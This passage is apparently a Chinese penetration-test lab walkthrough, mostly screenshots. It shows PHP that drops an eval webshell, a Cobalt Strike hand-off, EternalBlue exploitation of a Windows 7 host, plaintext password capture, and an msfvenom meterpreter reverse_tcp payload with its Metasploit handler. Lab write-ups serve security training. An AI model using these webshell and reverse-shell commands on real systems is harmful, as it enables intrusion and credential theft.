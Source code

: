 <?php  
  
file_put_contents("../htdocs/1.php", " <?php @eval($_POST['attack']);?>  
  
"); ?>成功写入，然后将其改为后门的木马  
  
![1747053896_6821ed48a2b40830cb628.png!small?1747053897214](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXhy8gHIU1ibMYjc1iaibA4DZTiaCGR4sgOd7IGH0JFssTIdDnL21pUAdoJQ/640?wx_fmt=jpeg&from=appmsg "")  
  
成功写入连接  
  
![1747053908_6821ed5475819d3b554a7.png!small?1747053910627](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXU88ibTMwFFmSLeicqNf99e4wapkIWDSzy6SsOOjwwVCpVbsiabXfEicsmg/640?wx_fmt=jpeg&from=appmsg "")  
  
将其连接到cs(生成后门上传执行）  
  
![1747053920_6821ed60ad830a714eaef.png!small?1747053921083](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXFLzjUkNcU5e06Atlwf5tIibocym1UJSx0IQ3NEjjBIn5fGXbmiarPUWg/640?wx_fmt=jpeg&from=appmsg "")  
### windows7  
### 信息收集  
  
![1747053943_6821ed778c7fe2a547427.png!small?1747053943415](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXficynyGibvy1HuqyT8XiaEUIzhbNeZssAmaUPniacG3h62MmlO5SCn8Jhw/640?wx_fmt=jpeg&from=appmsg "")  
  
端口扫描和探测  
  
并且抓取明文的密码  
  
![1747053952_6821ed8096000dd4e1e26.png!small?1747053952322](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX9GNUZibCzCicSD3EI3BgKQZtpazIhaT6sNeohD8LlrXqVH99Jtv1r3pQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![1747053958_6821ed86c2afee9bdbd74.png!small?1747053958452](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX1dLVJmoTNuXg9uhWU6rtYNIUHDnH9ITkLum8bkias2cPntFqD2hwlrg/640?wx_fmt=jpeg&from=appmsg "")  
  
发现129只有445端口  
  
将fscan传上去  
  
运行，发现![1747053972_6821ed9429b329afd7dbb.png!small?1747053971846](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXNQ9DvwicB2AyfwfBqy4pJOcGTRGDDdmQHFDz6KicqJmmXic1NW78do9Lw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
存在永恒之蓝  
### 永恒之蓝漏洞  
  
先将其转到msf上![1747054069_6821edf52eb331a923220.png!small](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXWLjib88aDYe5LjfvSO07T2eVHPZgryoZaQU4gCk6KuaBntibKeicpXNTw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
![1747054083_6821ee03bf1fd7ff66914.png!small?1747054083848](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXeZsHGribaxrJF0FYIYEoKGBdzjtIPnv0HibGVdmIobOTnibpX8KBVY5DA/640?wx_fmt=jpeg&from=appmsg "")  
  
![1747054090_6821ee0ad16e759c7f671.png!small?1747054090544](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXf4SWlvYyRbERxDGb45D7TfDSqrL5KqzhMKibbUQZ47Sz7eGh8xtEzvQ/640?wx_fmt=jpeg&from=appmsg "")  
  
或者直接用哥斯拉的传  
  
![1747054106_6821ee1a793498a9be2a3.png!small?1747054106238](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX9ofkXCTeh1nS4AGkGjSlnC2r1HM6pxXfSnXHjcbT3emHpRWETFiabjw/640?wx_fmt=jpeg&from=appmsg "")  
  
或者直接生成msf的后门  
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.139.129 LPORT=5210 -f exe -o 5210.exe  
>   
> use exploit/multi/handler  
> set payload windows/meterpreter/reverse_tcp  
> set lhost 192.168.2.129  
> set lport 1234  
> run  
  